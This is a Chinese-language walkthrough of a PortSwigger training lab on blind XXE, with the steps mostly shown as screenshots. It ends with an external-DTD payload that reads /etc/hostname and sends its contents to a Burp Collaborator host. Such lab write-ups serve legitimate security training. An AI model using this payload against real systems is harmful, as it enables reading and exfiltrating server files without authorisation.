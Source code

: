 靶场名称：Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)  
演示过程：

随意选择要给商品

[![](assets/1706060044-28755244befc400674839dbd085baaf1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131629-90737d44-b9ae-1.png)  
检测剩余量

[![](assets/1706060044-05b1cc127c9ccc826fa4632e992249fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131640-970373da-b9ae-1.png)  
捕获的请求数据包如下所示：  
[![](assets/1706060044-22d3f89bfdc839a256c6a76c0ef9a4ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131655-a043415a-b9ae-1.png)  
构造一下请求载荷

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://vfe4diypk995tl62h0q4c9ebk2qseh.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
